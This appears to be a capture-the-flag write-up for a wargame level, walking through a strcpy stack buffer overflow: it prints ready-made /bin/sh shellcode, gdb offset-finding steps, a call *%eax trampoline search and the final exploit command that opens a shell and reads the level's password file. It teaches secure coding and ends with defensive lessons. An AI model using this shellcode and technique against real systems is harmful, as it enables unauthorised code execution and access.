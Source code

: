 ## Level 4: avoid unsafe library functions

The source code on this level is surprisingly simple:
```
void fun(char *str) {
  char buf[1024];
  strcpy(buf, str);
}

int main(int argc, char **argv) {
  // ... 
  fun(argv[1]);
  // ... 
}
```

The problem is obvious:
`strcpy` is well-known to be unsafe,
as it doesn't check if the destination array has enough space to store the source array.
We can overwrite the memory area beyond `buf` using a long command line argument.

If you recall from the previous challenge,
the return address is stored on the stack after local variables.
By writing past the end of `buf`,
we can overwrite the return address,
so that when the function exits,
the execution will jump to where we want,
instead of the real next instruction.

In the previous challenge we could jump to the insecure function `run`.
In this program however,
we don't have such easy target.
On the other hand,
we can bring insecure code inside,
using the input string.
We could inject what is commonly called a *shellcode*:
a small piece of binary code that executes `/bin/sh`.

Implementing such shellcode is beyond the scope of this article.
If you're interested,
it's thoroughly explained in the Smash The Stack article[5].
Essentially it's a modified version of a simple C program like this:
```
#include <stdio.h>

void main() {
   char *name[2];

   name[0] = "/bin/sh";
   name[1] = NULL;
   execve(name[0], name, NULL);
}
```
Writing shellcode is not easy.
After compiling the above program,
there is more work to do,
such as rewriting assembly instructions that use `NULL` values,
as `strcpy` won't copy anything beyond the first `NULL`.

For our purposes,
we can take the finished shellcode from the Smash The Stack article[5],
and for convenience, let's save it in a shell variable:
```
EGG=$(printf '\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh')
```
Next,
we need to find the exact location of the return address.
The content of the stack will look something like this when we are inside `fun`:
```
0x0000      content of the local variable buf (1024 bytes)
0x0400+?    the return address
```
That is,
the return address should be a few bytes after the end of `buf`.
We can find the right position using `gdb`.
When we overwrite the return address with something invalid,
`gdb` will print the address it could not jump to.
We can use this to guess the right location.
We know that the size of `buf` is 1024,
so let's run the program with a longer string:
```
level03@box:/levels/level04$ gdb ./level04
(gdb) run $(python -c 'print "A" * 1100')
Starting program: /levels/levels04/level04 $(python -c 'print "A" * 1100')

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```
We have successfully overwritten the return address with "A"s.
Let's try another string,
something that will help us pinpoint the correct position:
```
(gdb) run $(python -c 'print "A" * 1024 + "abcdefghijklmnopqrstuvwxyz"')
Starting program: /levels/levels04/level04 $(python -c 'print "A" * 1024 + "abcdefghijklmnopqrstuvwxyz"')

Program received signal SIGSEGV, Segmentation fault.
0x706f6e6d in ?? ()
```
That looks within our `abc...` sequence.
Let's check the ASCII codes to find the exact location:
```
level03@box:/levels/level04$ echo abcdefghijklmnopqrstuvwxyz | hexdump -C
00000000  61 62 63 64 65 66 67 68  69 6a 6b 6c 6d 6e 6f 70  |abcdefghijklmnop|
00000010  71 72 73 74 75 76 77 78  79 7a 0a                 |qrstuvwxyz.|
0000001b
```
Since `m=6d n=6e o=6f p=70`,
the return address is in the place of the letters `mnop`.
As there are 12 letters before "m",
we can calculate the target length is 1024 + 12 = 1036.
Let's verify with one last test in `gdb`:
```
(gdb) run $(python -c 'print "A" * 1036 + "BBBB"')
Starting program: /levels/levels04/level04 $(python -c 'print "A" * 1036 + "BBBB"')

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```
Perfect.
If we put the shellcode at the beginning of the buffer,
then our input string will be in this form:
```
SSSSSSSS PPPPPPPPPPPPPPPPPPPPPP AAAA
```
Where `S` indicate the shellcode,
`P` the padding, and `A` the jump address.
We calculated the length of `S + P = 1036`,
to know the length of `P` alone we must find the length of `S`:
```
level03@box:/levels/level04$ printf $EGG | wc -c
45
```
Thus, the length of the padding should be `1036 - 45 = 991` characters.

The only thing missing is the jump address.
We want to jump to the address of `buf`,
but we cannot really know that.
In the past,
the stack used to be at the same address in all programs,
which was easy to exploit.
Today,
thanks to *Address Space Layout Randomization (ASLR)* used in modern operating systems,
the start address of the stack is randomized,
making it extremely difficult to guess the right location.

There is something else we can try.
On 32-bit x86 processors,
a function that returns a pointer value places its result in register `%eax`.
The result of `strcpy` is the address of the destination,
in our case `buf`.
And since `strcpy` is the last line in the function,
there is nothing else to change the content of `%eax` before the function exits.
Finally,
a `call *%eax` instruction executes the code at the address stored in `%eax`,
so if there is any such instruction inside the code,
we can use its address:
```
level03@box:/levels/level04$ objdump -d level04 | grep call.*eax
 8048488:   ff 14 85 1c 9f 04 08    call   *0x8049f1c(,%eax,4)
 80484cf:   ff d0                   call   *%eax
 80485fb:   ff d0                   call   *%eax
```
Bingo!
We can use either `0x080484cf` or `0x080485fb` as the address:
```
level03@box:/levels/level04$ ./level04 $EGG$(python -c 'print "A" * 991')$(printf '\xcf\x84\x04\x08')
/levels/level04 $ cat /home/level04/.password 
paegeiqu
```

## Lessons to learn

- Don't use unsafe library functions like `strcpy`.
  Check the documentation, it usually warns of security issues.

- Always make sure that arrays cannot be written beyond their boundaries.

- Always validate user input, and set reasonable limits to length.

